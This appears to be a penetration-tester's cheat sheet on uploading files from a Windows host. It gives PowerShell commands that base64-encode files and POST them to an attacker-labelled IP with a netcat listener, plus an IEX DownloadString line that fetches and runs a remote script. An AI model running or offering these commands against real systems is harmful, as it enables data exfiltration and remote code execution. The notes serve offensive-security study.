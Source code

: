 # **Upload Operations**
----
# PowerShell Base64 Encode & Decode
---
- Encode File Using PowerShell:
	- `[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))`
- Decode Base64 String in Linux:
	-  `echo copied_string | base64 -d` > file
	- `md5sum file` 

# PowerShell Web Uploads
---
- PowerShell doesn't have a built-in function for upload operations, **but we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function.**
- We'll also need **a web server that accepts uploads,** which is not a default option in most common webserver utilities.

- Installing a Configured WebServer with Upload:
	- `pip3 install uploadserver`
	- `python3 -m uploadserver`
- Now we can use a PowerShell **script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)** which uses `Invoke-RestMethod` to perform the upload operations.
- Upload a File to Python Upload Server:
	-  `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`
	- `Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`
	
# PowerShell Base64 Web Upload
---
- Using Invoke-WebRequest or Invoke-RestMethod together with Netcat.
- We use Netcat to listen in on a **port we specify and send the file as a `POST` request.**
	- `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`
	- `Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`
- On attacker:
	- `nc -lvnp 8000`
	- `echo <base64> | base64 -d -w 0`

# SMB Uploads
---
- The `WebDAV` protocol **enables a webserver to behave like a fileserver,** supporting collaborative content authoring. `WebDAV` can also use HTTPS.
- When you use `SMB`, it will first attempt to connect using the SMB protocol, and **if there's no SMB share available, it will try to connect using HTTP.**
